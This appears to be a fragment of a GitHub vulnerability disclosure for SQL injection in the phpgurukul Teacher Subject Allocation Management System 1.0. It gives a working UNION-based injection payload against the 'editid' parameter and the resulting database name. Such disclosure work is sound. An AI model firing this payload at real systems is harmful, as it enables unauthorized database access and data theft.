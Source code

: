 ```
    Title: Generic UNION query (NULL) - 17 columns
    Payload: editid=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7178626a71,0x5150594d7a46467872445173586e6a79485352684865574e6274416278436d715a64566b4a597574,0x716a767071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---

```
+ current database: `tsasdb`
<img width="1447" alt="image" src="https://github.com/ersinerenler/phpgurukul-Teacher-Subject-Allocation-Management-System-1.0/assets/113091631/c12891b3-ad2b-4404-b32d-cd2836738003">

